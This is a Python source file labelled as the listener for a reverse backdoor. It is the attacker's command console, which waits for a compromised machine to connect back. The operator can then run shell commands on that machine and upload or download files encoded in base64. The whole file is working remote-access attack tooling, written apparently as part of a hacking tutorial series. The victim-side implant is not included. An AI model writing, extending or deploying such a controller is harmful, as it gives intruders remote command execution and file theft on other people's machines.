 # listener-for-reverse-backdoor
import socket
import json
import base64


class Listener:

    def __init__(self, ip, port):
        listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        listener.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        listener.bind((ip, port))
        listener.listen(0)
        print("[+] Waiting for Incoming Connection")
        self.connection, address = listener.accept()
        print("[+] Got a Connection from " + str(address))


    def reliable_send(self, data):
        json_data = json.dumps(data)
        self.connection.send(json_data)

    def reliable_receive(self):
        json_data = ""
        while True:
            try:
                json_data = json_data + self.connection.recv(1024)
                return json.loads(json_data)
            except ValueError:
                continue

    def execute_remotely(self, command):
        self.reliable_send(command)
        if command[0] == "exit":
            self.connection.close()
            exit()

        return self.reliable_receive()

    def write_file(self, path, content):
        with open(path, "wb") as file:
            file.write(base64.b64decode(content))
            return "[+] Download Succesful"

    def read_file(self, path):
        with open(path, "rb") as file:
            return base64.b64encode(file.read())

    def run(self):

        while True:
            command = raw_input(">> ")
            command = command.split(" ")

            try:

                if command[0] == "upload":
                    file_content = self.read_file(command[1])
                    command.append(file_content)

                result = self.execute_remotely(command)

                if command[0] == "download" and "[-] Error " not in result:
                    result = self.write_file(command[1], result)

            except Exception:
                result = "[-] Error during command execution"

            print(result)


my_listener = Listener("ipaddress of own machine ", 1234)
my_listener.run()
